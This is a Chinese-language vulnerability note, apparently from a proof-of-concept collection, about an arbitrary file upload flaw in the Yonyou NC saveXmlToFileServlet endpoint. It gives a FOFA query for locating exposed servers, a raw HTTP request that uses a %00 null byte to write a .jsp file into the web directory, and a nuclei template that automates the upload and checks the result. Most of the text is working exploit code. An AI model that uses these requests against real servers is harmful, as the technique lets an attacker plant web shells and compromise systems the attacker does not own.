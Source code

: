 ## 用友NC接口saveXmlToFIleServlet存在文件上传

/portal/pt/servlet/saveXmlToFileServlet/doPost接口会保存xml文档到服务器一个路径下，默认会添加.xml后缀，通过Windows的文件名特性可截断.xml文件后缀。再通过目录穿越可上传jsp文件到nc_web目录下。


## fofa
```
title:"YONYOU NC"
```


## poc
```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=12121.jsp%00 HTTP/1.1
Host: 
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件路径：`http://ip:port/portal/processxml/12121.jsp`

## nuclei
```nuclei
id: yonyou-uap-saveXmlToFileServlet-upload-file
info:
  name: yonyou-uap-saveXmlToFileServlet-upload-file
  author: qianbenhyu
  severity: high

http:
  - method: POST
    path:
      - "{{BaseURL}}/portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename={{randstr_1}}.jsp%00"
    headers:
      Cookie: LA_K1=langid
      serverEnable: localserver
      Accept-Encoding: gzip, x-gzip, deflate
      Content-Length: 27
      Content-Type: application/octet-stream
      Content-Encoding: UTF_8
      Connection: keep-alive
      User-Agent: Apache-HttpClient/5.2.1 (Java/1.8.0_202)
    body: "{{randstr_2}}"

  - method: GET
    path:
      - "{{BaseURL}}/portal/processxml/{{randstr_1}}.jsp"
    matchers:
      - type: word
        words:
          - "{{randstr_2}}"

```
